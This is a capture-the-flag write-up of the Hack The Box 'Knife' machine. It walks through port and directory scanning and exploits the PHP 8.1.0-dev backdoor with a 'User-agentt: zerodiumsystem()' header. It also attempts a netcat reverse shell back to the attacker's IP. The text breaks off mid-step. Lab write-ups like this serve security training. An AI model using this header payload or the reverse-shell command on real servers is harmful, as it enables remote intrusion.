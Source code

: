 ```yaml
---
title: "Knife"
author: "Me"
date: "June 18, 2021"
output: html_document
---
```


# Knife

 <div id="boxinfo">
 <div id="textbox">
 <p class="alignleft">**Difficulty**: easy (?/10)</p>
 <p class="aligncenter">**Type**: CTF</p>
 <p class="alignright">**OS**: Linux</p>
 </div>
 <div style="clear: both;"></div>
 </div> 

<div class="img_container">
![desc]({{https://jsom1.github.io/}}/_images/htb_cap_desc.png){: height="600px" width = 800px"}
</div>

**Ports/services exploited:** -\\
**Tools:** dirb, nikto\\
**Techniques:** -\\
**Keywords:** \\


## 1. Port scanning
{:style="color:DarkRed; font-size: 170%;"}

As usual, let's perform a nmap scan with the flags *-sV* to have a verbose output, *-O* to enable OS detection, and *-sC* to enable the most common scripts scan.

<div class="img_container">
![nmap]({{https://jsom1.github.io/}}/_images/htb_knife_nmap.png)
</div>

There's only SSH and a web server running.

## 2. Find and exploit vulnerabilities
{:style="color:DarkRed; font-size: 170%;"}

We will start by browsing to the web page and see what it contains:

<div class="img_container">
![website]({{https://jsom1.github.io/}}/_images/htb_knife_site.png){: height="400px" width = 600px"}
</div>

There are a few tabs on the page, but none of them are clickable. The next obvious thing we want to do is bruteforce directories, and we'll use dirb for that:

<div class="img_container">
![dirb]({{https://jsom1.github.io/}}/_images/htb_knife_dirb.png)
</div>

Dirb didn't find anything interesting (we can't access */server-status*). It's not the first time nothing stands out rapidly, so we might want to try other wordlists and/or other tools.
Let's try with dirb and another wordlist with the following syntax:

````
sudo dirb http://10.10.10.242/ /usr/share/dirb/wordlists/big.txt
``````

That doesn't reveal anything either. We can try with another tool like wfuzz:

`````
sudo wfuzz --hc 404 -w /usr/share/wordlists/rockyou.txt http://10.10.242/FUZZ
``````

We filter the output so that it doesn't return 404 errors. The result seems to contain only false positives as we see in the image below:

<div class="img_container">
![wfuzz]({{https://jsom1.github.io/}}/_images/htb_knife_wfuzz.png)
</div>

It seems that words starting with either "#" or a digit (at least 1) work. I stopped the scan quicly since it would take a very long time and does't seem to be the right way to go.
It's odd that we still haven't anything to continue, but there are a few things we can still try. Let's perform a full TCP scan as well as a top 1000 ports UDP scan. The syntax is the following:

````
sudo nmap -sV -sC -p 1-65535 10.10.10.242
sudo nmap -sU 10.10.10.242
`````

Both those scans bring nothing... We saw the versions of Apache (httpd 2.4.41) and ssh (OpnSSH 8.2p1) in the output of nmap. We can search if there is any existing module in Metasploit for those services and versions:

````
searchsploit httpd | grep linux
searchsploit openSSH
`````

There are some existing exploits but they don't look very promising: it's either not for the good version or not what we want (DoS, buffer overflows, ...). We can also inspect the webpage to see if we find information about php (we saw *index.php* in the output of dirb) or any other useful information. We can simply right-click on the page and clickc on *inspect element*. Then we can look at the different tabs, see what kind of php scripts there are, inspect the trafficc between the server and our client, and so on... Sadly, there is nothing there either.\\

I'm not used to it, but we could try to use **Nikto**. This tool allows to scan a web server to detect potential vulnerabilities:

<div class="img_container">
![nikto]({{https://jsom1.github.io/}}/_images/htb_knife_nikto.png)
</div>

We see the version of php, which is 8.1.0-dev. Th fact that it's a dev version means that it could be vulnerable somehow. We'll search for vulnerabilities for this version, but first let's look at what CGII directories are. It didn't find any, but I don't know what it is so here's a shot description: cgi-bin ("Commom Gateway Interface") is a directory that contains stored Perl or compiled files. Those files are treated as programs instead of HTML pages or images, and will be run by the server instead of displayed normally. In short, it's an interface used by HTTP servers.\\

Simply Googling "php 8.1.0-dev exploit" returns many pages which mention a **backdoor remote command injection**. That might finally be our way in!\\
Apparently, the version 8.1.0-dev was released with a backdoor on March 28th, 2021. Someone was able to push two malicious commits into the php-src-repo. They were quickly discovered and removed, but might still be present if the version wasn't patched.

The exploit consists in adding a new header *"User-agentt":"zerodiumsystem();"* (yes with two "t"). We can issue a command in the *zerodiumsystem()* part, for example *zerodiumsystem('ls')* to list files and directories.\\
A well known tool to tamper a request if Burp, and we can use it to check if it works. We fist make sure the proxy is configured: in the browser, we go to *Preferences* -> *Network Settings* -> *Settings* and tick *Manual proxy configuration*. We set the value of HTTP Proxy to 127.0.0.1 and the port to 8080.\\
We can then open Burp and refresh the webpage in the browser. Burp should intercept the request, and we can modify it as follows:

<div class="img_container">
![burp]({{https://jsom1.github.io/}}/_images/htb_knife_burp1.png)
</div>

Once we added the malicious header, we can forward the request. The server processes it and responds to us. We can analyze the response to see if it worked:

<div class="img_container">
![burp]({{https://jsom1.github.io/}}/_images/htb_knife_burp2.png)
</div>

The server indeed returned the output of the *ls* command, proving we have remote code execution! Let's see if we can get a reverse shell... We start by looking at our ip (*sudo ifconfig tun0*). We then start a listener on port 4444 (*sudo nc -nlvp 4444*) and replace the *ls* command with *nc -nv 10.10.14.6 4444*:

<div class="img_container">
![burp]({{https://jsom1.github.io/}}/_images/htb_knife_burp3.png)
</div>

We forward the packet and see if the server connects back to us:

<div class="img_container">
![revshell]({{https://jsom1.github.io/}}/_images/htb_knife_revsh.png)
</div>

It does indeed, but the shell is not responsive... There could be another way to get the user flag: we can issue hostname, and then write a command to read the file in the user's home. We start by getting the hostname:

<ins>**My thoughts**</ins>
Although only 2 ports, not smth that stands out. Feels more like a real life scenario. Normalement 10000 trucs à try, ici l'inverse, struggle pour trouver un truc.

